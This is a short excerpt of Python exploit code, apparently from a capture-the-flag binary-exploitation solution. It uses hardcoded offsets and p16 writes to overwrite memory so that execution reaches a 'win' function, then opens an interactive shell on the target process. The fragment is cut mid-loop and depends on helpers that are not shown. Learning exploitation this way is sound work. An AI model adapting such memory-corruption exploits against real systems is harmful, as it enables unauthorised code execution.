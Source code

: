 ```py

	offset_base_win = 0x5d80
	offset_base2 = 0x5a28


	seek(-offset_base2)
	win_offset = 0x8229
	write(2, p16(win_offset))

	seek(-offset_base_win)
	write(2, p16(0x5638 - 0x3d88))
	write(-1, "b")

	try:
		p.sendline("ls")
		print(p.recv())
		#p.interactive()
	except:

		p.close()
		continue
	finally:
		p.interactive()
```



